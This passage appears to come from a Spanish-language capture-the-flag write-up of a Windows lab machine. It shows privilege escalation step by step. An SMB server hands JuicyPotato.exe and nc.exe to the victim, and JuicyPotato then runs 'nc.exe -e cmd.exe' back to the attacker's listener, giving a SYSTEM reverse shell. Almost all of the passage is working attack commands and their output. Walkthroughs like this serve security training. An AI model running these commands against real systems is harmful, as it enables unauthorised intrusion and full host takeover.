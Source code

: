 ```
# impacket-smbserver smbFolder $(pwd) -smb2support
```

Desde la máquina víctima usando `copy` obtenemos el binario

```
C:\Users\kohsuke\Desktop>copy \\10.10.16.16\smbFolder\JuicyPotato.exe .
copy \\10.10.16.16\smbFolder\JuicyPotato.exe .
        1 file(s) copied.
```

Para transferirnos el `netcat` debemos crear el `servidor smb` dentro de la carpeta descomprimida y posteriormente `transferirnos` el archivo con `copy`

```
C:\Users\kohsuke\Desktop>copy \\10.10.16.16\smbFolder\nc.exe .
copy \\10.10.16.16\smbFolder\nc.exe .
        1 file(s) copied.
```

Nos ponemos en escucha con `netcat` por el `puerto 443`

```
# nc -nlvp 443
```

Desde la máquina windows ejecutamos `JuicyPotato` para mandarnos un `shell` a nuestro equipo como `nt authority\system`

```
C:\Users\kohsuke\Desktop>JuicyPotato.exe -l 1337 -c "{08D9DFDF-C6F7-404A-A20F-66EEC0A609CD}" -p C:\Windows\System32\cmd.exe -a "/c C:\Users\kohsuke\Desktop\nc.exe -e cmd.exe 10.10.16.16 443" -t * 
JuicyPotato.exe -l 1337 -c "{08D9DFDF-C6F7-404A-A20F-66EEC0A609CD}" -p C:\Windows\System32\cmd.exe -a "/c C:\Users\kohsuke\Desktop\nc.exe -e cmd.exe 10.10.16.16 443" -t * 
Testing {08D9DFDF-C6F7-404A-A20F-66EEC0A609CD} 1337
......
[+] authresult 0
{08D9DFDF-C6F7-404A-A20F-66EEC0A609CD};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

Recibimos la `shell` como `usuario privilegiado`

```
# nc -nlvp 443    
listening on [any] 443 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.194.239] 49716
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
